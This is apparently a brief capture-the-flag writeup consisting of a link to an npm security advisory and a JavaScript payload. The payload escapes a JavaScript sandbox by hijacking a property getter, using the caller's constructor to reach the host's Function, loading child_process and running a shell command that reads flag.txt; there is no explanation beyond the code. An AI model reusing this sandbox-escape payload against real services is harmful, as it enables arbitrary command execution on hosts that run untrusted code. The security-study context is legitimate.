 # WRITEUP

https://www.npmjs.com/advisories/1033


```javascript
((() => { 
const targetKey = Object.keys(this)[0]; 
Object.defineProperty(this, targetKey, { 
get: function() { 
return arguments.callee.caller.constructor( 
\"return global.process.mainModule.require('child_process').execSync('cat flag.txt').toString()\" 
)(); 
} 
}); 
}))()
```

